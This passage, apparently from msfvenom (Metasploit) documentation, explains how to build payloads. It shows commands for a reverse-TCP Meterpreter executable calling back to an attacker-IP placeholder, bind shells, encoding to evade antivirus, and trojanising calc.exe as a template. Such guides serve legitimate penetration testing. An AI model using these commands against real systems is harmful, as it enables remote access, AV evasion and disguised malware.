 ```plaintext
msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:

```plaintext
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```

## How to encode a payload

Encoders are used to encode the payload and convert it into pure alphanumeric characters and remove any bad characters to make it suited for the target environment.

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```plaintext
msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn’t really meant to be used a real AV evasion solution:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```

## How to avoid bad characters

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

## How to supply a custom template

By default, msfvenom uses templates from the msf/data/templates directory. If you’d like to choose your own, you can use the -x flag like the following:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
```

Please note: If you’d like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:

```plaintext
msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```
